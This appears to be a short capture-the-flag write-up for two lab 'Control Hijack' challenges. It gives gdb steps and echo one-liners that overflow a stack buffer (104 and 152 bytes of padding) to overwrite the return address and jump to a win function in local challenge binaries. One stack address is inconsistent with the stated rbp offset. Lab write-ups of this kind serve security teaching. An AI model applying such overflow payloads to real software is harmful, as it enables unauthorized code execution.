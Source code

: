 # Control Hijack

## Control Hijack (easy)

As told in the debug output, the return address is stored 104 bytes from input buffer and has to be changed to 0x40229e

```shell
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x22\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-w
```

## Control Hijack (hard)

1. In gdb, `info functions` and `disas main`, we get to know:
    - win() is at **0x00000000004013b4**
    - challenge() returns at **0x000000000040167b**

2. Set a breakpoint `b *challenge+242`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7fffc56bb090**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7fffc56ba000**, which is **rbp-0x90** = rbp-144
    - return address is stored at **0x7fffc56bb098**, which is **rbp+0x8** = rbp+8
5. 152 a's followed by desired address:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xb4\x13\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack
    ```
